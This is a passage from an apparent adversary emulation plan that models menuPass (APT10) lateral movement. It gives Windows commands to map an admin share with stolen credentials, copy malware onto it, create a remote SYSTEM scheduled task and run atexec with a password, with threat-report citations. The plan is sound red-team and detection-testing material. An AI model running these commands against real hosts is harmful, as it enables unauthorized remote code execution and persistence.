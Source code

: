 
```cmd
Example: C:\users\CVNX> net use z: \\192.0.2.10\C$ /u:targetdomain\victim badpassword123
```

2. Check to ensure the network share is mapped:

```cmd
net use
```

3. Deploy - Copy tactical malware to the mapped network share.

```cmd
copy #{file} #{drive}\#{destination_dir}
```

```example

Example: copy #{file} z:\ProgramData\Temp

```

4. Execute - Create a Scheduled Task to Execute the File ([T1053.005](https://attack.mitre.org/techniques/T1053/005)):<sup>[10](https://recordedfuture.com/apt10-cyberespionage-campaign/)</sup> <sup>[22](https://jpcert.or.jp/present/2018/20171109codeblue2017_en.pdf)</sup>

```cmd
schtasks /create #{task_name} /tr #{path_of_the_file_to_run} /sc #{schedule} #{user_name} /s #{ip_address}
```

```cmd
Example: C:\Users\CVNX> schtasks /create /tn WinUpdate /tr C:\ProgramData\Temp\WinUpdate.exe /sc onstart /ru System /s 192.0.2.10
```

5. Deleting the mapped network drive:

```cmd
net use z: /delete
```

#### Alternative Procedure 3

menuPass actors are reported to have used atexec.py, compiled into an executable, to manipulate a remote machine's Task Scheduler and execute commands.<sup>[7](https://www.pwc.co.uk/cyber-security/pdf/cloud-hopper-annex-b-final.pdf)</sup>

```cmd
#{atexec_local_path}\atexec.exe #{domain}\#{username}:#{password}@#{ip_address} #{command}
```

```cmd
Example: atexec.exe domain\CVNX:'Password123!'@192.0.2.10 whoami
```

---

## Step 6 - menuPass Collection
